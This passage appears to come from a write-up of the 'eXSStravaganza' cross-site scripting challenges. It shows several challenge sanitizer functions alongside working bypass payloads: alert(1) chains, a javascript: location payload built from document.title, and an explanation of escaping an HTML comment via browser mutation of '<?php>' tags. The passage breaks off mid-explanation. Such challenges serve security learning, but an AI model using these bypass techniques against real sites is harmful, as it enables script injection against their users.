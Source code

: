 The final payload is:

    bad.length--
    bad.length--
    bad.length--
    regex.compile``
    alert(1)

Other solutions are however viable: the regex can be broken with `regex--` as well, so this payload also works:

    regex--
    bad.length--
    bad.length--
    alert(1)

## eXSStravaganza bonus level 1
### The sanitizer

    function sanitize(input) {
        // only letters and some other characters
        const sanitized = input
            .replace(/[^a-z"+,:.=]/g, '')
        return '  \x3Cscript>\nvar x = "' + sanitized + '";\n  \x3C/script>'
    }

### The solution

Almost no useful characters are available, BUT a keen eye can see that the window title of the sandbox is different.
In this case, the window title is in fact `alert(1) // to win!`, which is perfectly valid javascript code.

Keeping this in mind, we can use the following payload to trigger the alert:

    ",location="javascript:"+document.title+"

## eXSStravaganza bonus level 2
### The sanitizer

    function sanitize(input) {
        // no bad chars
        const sanitized = input
            .replace(/[-&%!/#;]/g, '')
        const template = document.createElement('template');
        template.innerHTML = sanitized;
        return '  <!-- ' + template.innerHTML + ' -->'
    }

### The solution

We need to close the comment somehow.
When browsers see a tag starting with a question mark (`<?php>`, for example),
they mutate the html in order to comment it out, so it becomes `<-- <?php> -->`, but as we know comments cannot be nested.
